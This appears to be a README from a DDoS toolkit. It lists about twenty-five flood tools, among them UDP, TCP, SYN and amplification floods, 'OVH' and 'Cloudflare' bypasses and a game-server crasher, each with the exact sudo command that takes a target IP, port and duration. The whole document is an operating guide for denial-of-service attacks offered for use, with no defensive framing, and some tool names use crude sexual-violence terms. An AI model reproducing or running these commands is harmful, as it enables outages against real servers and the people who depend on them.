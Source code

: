 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% 9999 0 9999

OVH-V2 : sudo ./ovhbypass2 %ip% %port% 999999 udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 999999 ack

HEX : sudo ./HEX OVH %ip% %port% 999999

NUKE-BYPASS : sudo ./HiperOVH %ip% %port%

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 999999

ETHERA : sudo ./ETHERA %ip% %port%

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 999999

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 999999

R4P3 : sudo ./gre %ip% 10 -1 999999

NFO : sudo ./NFO %ip% %port% 10 -1 999999

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 999999

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 999999

NULL : sudo perl UDP_NULL.pl %ip% 999999

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 9999

UDP-MIX : sudo perl UDP_MIX.pl %ip% 9999

TCP_NUKE : sudo perl TCP_VOX.pl %ip% 9999

OVH-RAPE : sudo perl OVHBYPASS.pl %ip% %port% 9999

GAME : sudo ./GAME-CRASH %ip% %port%

AMP : sudo perl amp.pl %ip% %port% 5500 9999

Twiks : sudo ./Twiks %ip% %port%

35 : sudo perl 35.pl %ip% %port% 1000 300

